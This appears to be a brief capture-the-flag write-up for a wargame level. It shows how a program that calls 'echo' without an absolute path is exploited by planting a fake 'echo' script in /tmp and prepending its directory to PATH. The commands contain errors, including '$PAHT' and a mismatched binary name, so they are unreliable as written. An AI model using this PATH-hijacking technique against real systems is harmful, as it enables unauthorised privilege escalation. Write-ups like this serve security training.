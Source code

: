 # Download file and inspect the code with Ghidra
`scp -P 4242 level03@192.168.56.102:level03 .`

# Exploit call to echo with no absolut path by creating or custom script
```bash
mkdir /tmp/lol
cat > /tmp/lol/echo
#!/bin/bash
getflag
<ctrl + D>
chmod 777 /tmp/lol/echo
export PATH="/tmp/lol:$PAHT"
```

# Get the flag
`./level01`
